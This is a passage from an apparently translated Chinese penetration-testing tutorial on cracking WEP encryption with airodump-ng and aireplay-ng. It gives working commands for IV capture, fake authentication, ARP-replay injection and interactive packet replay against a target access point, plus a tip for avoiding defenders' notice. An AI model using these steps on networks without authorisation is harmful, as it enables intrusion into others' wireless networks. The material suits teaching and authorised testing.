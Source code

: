 1.  启动`airodump-ng`以嗅探无线流量并使用以下命令收集 IV 数据包，其中`--bssid`允许我们选择目标的 BSSID，`-c`表示频道，`-w`允许我们写入输出文件的名称（`wep_out`）：

```
root@kali:~# airodump-ng --bssid 00:06:25:9A:A9:C6 -c 6 -w
  wep_out wlan0 

```

1.  现在我们必须增加传输的 IV 数据包数量。打开第二个终端窗口（不要关闭第一个）并输入以下命令，对目标无线接入点进行虚假认证：

```
root@kali:~# aireplay-ng -1 0 -a 00:06:25:9A:A9:C6 -h 
  00:11:22:33:44:55 -e dd_wep wlan0 

```

这里，`-1`表示虚假认证，`0`是重新关联的时间（设置为`0`可能会引起防御者的警觉，因此攻击者可能将其设置为 30 甚至更高）。

1.  在进行虚假认证后，我们将生成似乎来自受信任 MAC 地址的流量，并将其路由到目标无线接入点。

```
root@kali:~# aireplay-ng -3  -b 00:06:25:9A:A9:C6 -h 
  00:11:22:33:44:55 wlan0 

```

这种攻击被称为 ARP 注入或 ARP 重放攻击。通常，目标接入点将重新广播 ARP 数据包并每次生成一个新的 IV；因此，这是一种快速培育必要 IV 的方法。

先前命令的执行结果如下截图所示：

![破解 WEP 加密](img/3121OS_08_13.jpg)

1.  让我们在 ARP 注入继续的同时生成一些额外的数据包。打开另一个终端窗口，并输入以下命令开始交互式数据包重放攻击：

```
root@kali:~# aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF 
  - b (mac address) -h (mac address) wlan0 

```

在这里，`-2`表示我们正在使用交互式重放攻击，`-p 0841`设置数据包的帧控制字段，使其看起来像是从无线客户端发送的，`-c FF:FF:FF:FF:FF:FF`设置目的地（在这种情况下，`FF`符号发送数据包到网络上的所有主机），`-b`是 BSSID 的 MAC 地址，`-h`是正在传输的数据包的 MAC 地址，应与测试者的 MAC 地址匹配。

先前命令的执行结果如下截图所示：

![破解 WEP 加密](img/3121OS_08_14_new.jpg)
